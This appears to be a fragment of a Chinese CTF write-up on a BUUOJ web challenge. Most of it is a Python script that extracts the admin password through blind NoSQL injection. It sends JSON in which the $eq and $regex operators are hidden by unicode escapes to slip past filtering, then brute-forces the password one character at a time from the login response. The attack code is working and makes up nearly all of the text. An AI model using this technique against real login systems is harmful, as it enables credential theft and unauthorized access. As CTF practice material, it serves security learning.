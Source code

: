 用$regex来匹配

```python
import string
import requests

characters = string.ascii_letters + string.digits  # [A-Za-z0-9]
password = ""
payload = """{"username":{"$\\u0065\\u0071": "admin"}, "password": {"$\\u0072\\u0065\\u0067\\u0065\\u0078": "^%s"}}"""
url = "http://node4.buuoj.cn:26351/login.php"

for i in range(50):
    for character in characters:
        response = requests.post(url=url, data=(payload % (password + character)),
                                 headers={"Content-Type": "application/json; charset=UTF-8"})
        responseContent = response.content.decode()
        
        #print(f"[+] Trying {character} with response {responseContent}")
        response.close()
        if "登录了" in responseContent:
            password += character
            print(f"[*] Found new character {character} with password now which is {password}")
            break
```

![Untitled](SQL%E6%B3%A8%E5%85%A5%207c83b7a8861f4e89aff2bded5a55302b/Untitled%2010.png)
